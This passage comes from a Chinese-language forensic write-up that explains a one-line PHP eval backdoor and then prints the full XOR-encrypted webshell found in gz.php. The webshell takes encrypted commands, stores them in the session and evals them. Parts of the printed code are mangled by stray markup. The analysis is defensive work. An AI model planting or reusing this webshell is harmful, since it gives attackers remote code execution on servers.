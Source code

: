     * ​`@`​ 符号在 PHP 中用于抑制错误信息的输出。如果 `eval()`​ 函数执行时发生错误，错误信息将不会被显示。
    * ​`eval()`​ 是一个 PHP 函数，它将传入的字符串作为 PHP 代码执行。这非常危险，因为它允许执行任意代码，这可能导致安全漏洞，如远程代码执行（RCE）。
    * ​`$_REQUEST`​ 是一个超全局变量，它包含了 `$_GET`​、`$_POST`​ 和 `$_COOKIE`​ 的数据。在这个上下文中，它被用来获取通过 HTTP 请求传递的参数。
    * ​`[1]`​ 表示从 `$_REQUEST`​ 数组中获取第二个元素（数组索引从 0 开始计数）。这意味着代码将执行 `$_REQUEST`​ 数组中第二个元素的值作为 PHP 代码。

‍

**所以很明显shell.php是一个病毒文件，那我们定位一下它的目录过去查看一下内容；**

‍

​![image-20240606175414486](assets/image-20240606175414486-20240628162841-g3tixe0.png)​

‍

**发现里面没啥内容，不过没关系我们还有两个可以进行查看，继续分析另外两个PHP文件；**

‍

​![image-20240606175828397](assets/image-20240606175828397-20240628162849-kn0r5at.png)​

‍

**最后终于在gz.php里面发现了；**

‍

	<?php  
	@session_start();  
	@set_time_limit(0);  
	@error_reporting(0);  
	function encode($D,$K){  
	    for($i=0;$i<strlen($D);$i++) {  
	        $c =$K[$i+1&15];  
	        $D[$i] = $D[$i]^$c;  
	    }  
	    return $D;  
	}  
	//027ccd04-5065-48b6-a32d-77c704a5e26d  
	$payloadName='payload';  
	$key='3c6e0b8a9c15224a';  
	$data=file_get_contents("php://input");  
	if ($data!==false){==    ==$data=encode($==​==data,$key);if (isset(==​==$_SESSION[$==​==payloadName])){==        ==$payload=encode($==​==_SESSION[==​==$payloadName],$==​==key);if (strpos($payload,&quot;getBasicsInfo&quot;)===false){==            ==$payload=encode($==​==payload,$key);}eval($payload);echo encode(@run(==​==$data),$==​==key);}else{if (strpos($data,&quot;getBasicsInfo&quot;)!==false){  
	            $_SESSION[$payloadName]=encode($data,$key);  
	        }  
	    }  
	}
